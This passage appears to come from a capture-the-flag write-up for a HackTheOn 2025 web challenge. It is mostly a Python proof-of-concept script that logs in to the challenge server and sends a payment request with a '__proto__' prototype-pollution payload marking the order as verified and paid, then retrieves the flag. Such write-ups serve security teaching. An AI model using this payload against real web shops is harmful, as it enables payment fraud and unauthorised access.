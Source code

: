 **Bypass confirmed.**

---
### PoC

Combine all thing, we come to this PoC code:

```python
import requests

BASE_URL = "http://hacktheon2025-challs-alb-1807358214.ap-northeast-2.elb.amazonaws.com:3000"
USERNAME = "c"
PASSWORD = "c"

session = requests.Session()

register_data = {"username": USERNAME, "password": PASSWORD}
response = session.post(f"{BASE_URL}/auth/register", json=register_data)
print("Register:", response.text)

login_data = {"username": USERNAME, "password": PASSWORD}
response = session.post(f"{BASE_URL}/auth/login", json=login_data)
print("Login:", response.text)

if "Login successful" not in response.text:
    print("Login failed. Exiting.")
    exit()

response = session.get(f"{BASE_URL}/products")
print("Raw response:", response.text)  

try:
    products = response.json()
except Exception as e:
    print("Failed to parse products JSON:", e)
    exit()

if not products:
    print("No products found.")
    exit()

product_id = products[0]["id"]
product_price = products[0]["price"]
print(f"Target Product: ID={product_id}, Price={product_price}")

payload = {
    "productId": product_id,
    "points": product_price + 100,
    "__proto__": {
        "verified": True,
        "state": "paid"
    }
}
response = session.post(f"{BASE_URL}/payment/init", json=payload)
print("Exploit Payload Sent:", response.text)

response = session.get(f"{BASE_URL}/payment/confirm")
print("Flag:", response.text)
```

---
